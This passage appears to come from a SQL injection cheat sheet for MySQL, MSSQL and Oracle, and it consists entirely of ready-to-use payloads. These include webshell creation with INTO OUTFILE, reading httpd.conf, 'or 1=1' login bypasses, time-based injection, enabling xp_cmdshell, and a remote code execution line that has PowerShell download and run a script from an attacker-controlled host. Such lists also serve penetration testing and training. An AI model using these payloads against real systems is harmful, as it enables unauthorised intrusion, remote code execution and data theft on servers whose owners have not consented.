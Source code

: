 ##### Create Webshell

```c
LOAD_FILE('/etc/httpd/conf/httpd.conf')
select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/<FILE>.php";
```

or

```c
LOAD_FILE('/etc/httpd/conf/httpd.conf')
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/<FILE>.php" -- //
```

#### MSSQL

##### Authentication Bypass

```c
' or 1=1--
```

##### Get Version with Time-Based Injection

```c
' SELECT @@version; WAITFOR DELAY '00:00:10'; —
```

##### Enable xp_cmdshell

```c
' UNION SELECT 1, null; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--
```

##### Remote Code Execution (RCE)

```c
' exec xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<LHOST>/<FILE>.ps1')" ;--
```

#### Orcale SQL

##### Authentication Bypass

```c
' or 1=1--
```

##### Get Number of Columns

```c
' order by 3--
```

##### Get Table Name

```c
' union select null,table_name,null from all_tables--
```
